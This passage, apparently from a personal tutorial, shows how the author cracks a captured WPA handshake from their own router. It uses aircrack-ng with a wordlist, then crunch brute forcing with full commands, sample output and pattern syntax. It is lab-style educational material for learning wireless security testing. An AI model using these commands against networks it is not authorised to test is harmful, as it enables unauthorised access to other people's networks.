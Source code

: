 ```
$ aircrack-ng -w wordlist.txt SCAN_OUTPUT.cap
```

In my case, I used a short wordlist of 4800 passwords to try and crack the handshake. I was not able to find the key, but this is what the output will look like:

```
                              Aircrack-ng 1.5.2

      [00:00:00] 4800/4799 keys tested (5047.82 k/s)

      Time left: 0 seconds                                     100.02%

                                KEY NOT FOUND

      Master Key     : 8B BB 3C 7A 08 50 43 73 73 BC 27 A0 A0 20 C2 C4
                       F8 82 0E 55 32 29 28 4C 93 CD 4D C0 3E E3 9C 4C

      Transient Key  : DE 14 79 DB 14 3B ED 7A 0D 80 FC DA 67 77 5C 09
                       C7 95 27 0C AC 2A 3B 2B 08 5F B5 22 B5 F6 F7 0F
                       C5 50 68 68 85 00 1E 80 33 1B F8 D9 FE E2 5B F4
                       71 EE D0 87 E4 57 ED 21 2D 66 CC 0B A7 A7 0D 1D

      EAPOL HMAC     : 35 D8 56 95 03 0B DF 6B 48 C4 DE 21 DB 01 7F E7
```

The tool will go through every password in the wordlist and try to crack the acess point's password. Wordlists are convenient and can be fast, but if the password is not in the wordlist itself, we'll need to try bruteforcing.

There are likely several tools out there that can generate password combinations, but I used `crunch`. The formula to feed passwords generated by `crunch` into `aircrack-ng` is as follows (notice we need to specify the ESSID this time):

```
$ crunch [min password length] [max password length] [characters to use] | aircrack-ng -w - [filename.cap] -e [ESSID]
```

I already know the length of the passowrd to my own router. My full command looks like this:

```
$ crunch 14 14 abcdefghijklmnopqrstuvwxyz 1234567890 | aircrack-ng -w - SCAN_OUTPUT.cap -e Lower\ The\ Rent
```

This will be very slow, as the program will attempt every 14-character letter and number combination possible.

In my case, my router has the default password of `pinkcoconut165`. With this knowledge, I can specify further. Instead of attempting a random mix of letters and numbers, I can test for a specific arrangement of letters/numbers. Obviously, this would not be known if we were attacking a completely unknown access point, but I want to demonstrate what a successful crack looks like. Using the `-t` option we can specify a pattern. Here's the description from the `man` page:

```
-t @,%^
      Specifies a pattern, eg: @@god@@@@ where the only the @'s, ,'s, %'s, and ^'s will change.
      @ will insert lower case characters
      , will insert upper case characters
      % will insert numbers
      ^ will insert symbols
```
